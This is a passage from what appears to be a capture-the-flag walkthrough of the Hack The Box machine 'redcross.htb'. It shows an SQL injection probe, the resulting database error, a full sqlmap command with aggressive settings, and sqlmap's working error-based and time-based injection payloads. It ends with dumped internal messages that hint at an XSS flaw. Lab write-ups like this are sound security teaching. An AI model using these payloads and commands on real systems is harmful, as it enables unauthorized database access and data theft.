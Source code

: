 ```
https://intra.redcross.htb/?o=1%27&page=app
```

```
DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '5' or dest like '1'') LIMIT 10' at line 1
```

To quickly exploit the vulnerability we save a normal reference request to file and use sqlmap:

```
sqlmap -r `pwd`/inject.req --delay 0.5 --level 5 --risk 3 --dbms mysql --batch -p o --proxy=http://127.0.0.1:8080
```

After waiting for a few minutes we see that sqlmap could exploit the injection:

```
Parameter: o (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=1') AND (SELECT 8978 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(8978=8978,1))),0x7171767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Gnck&page=app

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: o=1') AND SLEEP(5)-- mXWR&page=app
---
```

Among the contents of the database we find some interesting messages:

```
1,You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.,5,1,Guest Account Info
2,"Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.",2,4,Problems with order 02122128
3,"Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?",3,1,Strange behavior
4,"Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.",4,2,Problems with order 02122128
5,"Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!",2,3,admin subd webapp problems
6,"Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR",3,2,admin subd webapp problems (priority)
7,"Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side... ",1,2,STOP checking messages from intra (priority)
8,Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what colud happen? Don't worry but fix it ASAP.,2,1,STOP checking messages from intra (priority)
```

First of all there is information about an admin webpanel, which we have not found yet. Then there here is a note about "Alerts popping everywhere", which is a hint at a possible Cross-Site Scripting (XSS) vulnerability inside the admin webpanel. In addition to these notes we also get some usernames and password hashes:
